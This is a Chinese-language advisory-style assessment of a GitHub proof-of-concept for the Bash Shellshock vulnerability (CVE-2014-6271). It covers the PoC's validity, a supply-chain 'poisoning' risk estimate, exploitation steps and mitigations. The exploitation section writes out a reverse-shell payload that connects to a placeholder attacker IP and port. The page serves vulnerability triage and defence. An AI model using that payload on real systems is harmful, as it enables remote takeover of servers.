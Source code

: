 ## CVE-2014-6271 Shellshock

**漏洞编号:** CVE-2014-6271

**漏洞类型:** 远程命令执行

**影响应用:** GNU Bash

**危害等级:** 高危，允许远程攻击者执行任意代码

**影响版本:** <= 4.3

**利用条件:** 目标系统使用Bash，并且存在可以通过环境变量传递参数的CGI脚本或其他服务。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2014-6271（Shellshock）是一个存在于GNU Bash中的远程命令执行漏洞。漏洞的根源在于Bash处理环境变量中函数定义后附加字符串的方式。攻击者可以通过构造包含恶意代码的环境变量，利用诸如Apache HTTP Server的mod_cgi模块、OpenSSH的ForceCommand功能、DHCP客户端脚本等场景，跨越权限边界执行任意shell命令。

**有效性评估：**

提供的漏洞利用代码（shellshock_exploit.py）旨在利用Shellshock漏洞，通过向目标URL发送特制的HTTP请求，其中User-Agent头包含恶意Bash代码，从而在目标服务器上执行任意命令。

README.md 文件中提供了检测和利用该漏洞的步骤。

根据漏洞库信息和搜索结果，该漏洞是一个广泛存在的严重漏洞，影响大量系统和服务。提供的POC代码与漏洞描述一致，因此，该POC代码**有效**。

**投毒风险评估：**

检查`shellshock_exploit.py`脚本和`README.md`文件，未发现明显的恶意代码。脚本的主要功能是构造包含漏洞利用代码的HTTP请求，并在本地监听反弹shell。风险点可能在于以下几点：

1.  **Payload定制：** 脚本允许指定LHOST和LPORT，如果用户不小心使用了错误的IP地址或端口，可能会导致连接到恶意服务器。
2.  **依赖性：** 脚本依赖于`requests`库，如果安装了被篡改的`requests`库，可能会存在风险。
3.  **Netcat依赖：** 脚本依赖于本地的 `nc` 命令, 如果本地的 `nc` 命令被恶意替换, 可能存在风险。

总体而言，该代码的投毒风险较低，主要集中在使用者的误操作和对外部依赖项的信任上。投毒风险估计为10%。

**漏洞利用方式：**

1.  **确定目标：** 找到运行存在漏洞Bash版本的服务器，并且该服务器运行着可以通过环境变量传递参数的服务，例如CGI脚本。
2.  **构造Payload：** 构造包含恶意Bash代码的环境变量，例如：`() { :; }; /bin/bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1`
3.  **发送请求：** 通过HTTP请求或其他方式将构造的Payload作为环境变量传递给目标服务器。
4.  **执行命令：** 目标服务器上的Bash解释器会执行恶意代码，从而执行攻击者指定的命令。
5.  **反弹Shell：** 在上面的Payload示例中，恶意代码会尝试创建一个反弹Shell，将目标服务器的Shell连接到攻击者的IP地址和端口。

**缓解措施：**

1.  升级Bash到最新版本。
2.  检查和更新所有使用Bash脚本的服务，确保它们不会受到环境变量的影响。
3.  使用入侵检测系统（IDS）和入侵防御系统（IPS）来检测和阻止Shellshock攻击。

**项目地址:** [Jsmoreira02/CVE-2014-6271](https://github.com/Jsmoreira02/CVE-2014-6271)

**漏洞详情:** [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)